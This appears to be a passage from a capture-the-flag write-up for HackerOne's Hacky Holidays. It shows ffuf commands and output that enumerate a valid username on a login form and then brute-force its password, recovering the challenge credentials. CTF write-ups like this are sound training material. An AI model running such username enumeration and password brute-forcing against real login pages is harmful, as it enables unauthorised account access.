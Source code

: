 ```bash
>> sapra@MacBook ~ % fff -u "https://hackyholidays.h1ctf.com/secure-login"  -X POST -d 'username=FUZZ&password=?' -w ~/Desktop/users.txt  -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid Usern"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.2.0-git
________________________________________________

 :: Method           : POST
 :: URL              : https://hackyholidays.h1ctf.com/secure-login
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=?
 :: Filter           : Regexp: Invalid Usern
________________________________________________

access                  [Status: 200, Size: 1724, Words: 464, Lines: 37]
```

Ok, great we were able to find a valid username `access`. Now we can do the same for password.

```bash
>> sapra@MacBook ~ % fff -u "https://hackyholidays.h1ctf.com/secure-login"  -X POST -d 'username=access&password=FUZZ' -w ~/Desktop/passwords.txt  -H "Content-Type: application/x-www-form-urlencoded" -ac


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.2.0-git
________________________________________________

 :: Method           : POST
 :: URL              : https://hackyholidays.h1ctf.com/secure-login
 :: Data             : username=access&password=FUZZ
________________________________________________

computer                [Status: 302, Size: 0, Words: 1, Lines: 1]
```

Login to [https://hackyholidays.h1ctf.com/secure-login](https://hackyholidays.h1ctf.com/secure-login) using credentials `username=access` and `password=computer`. 
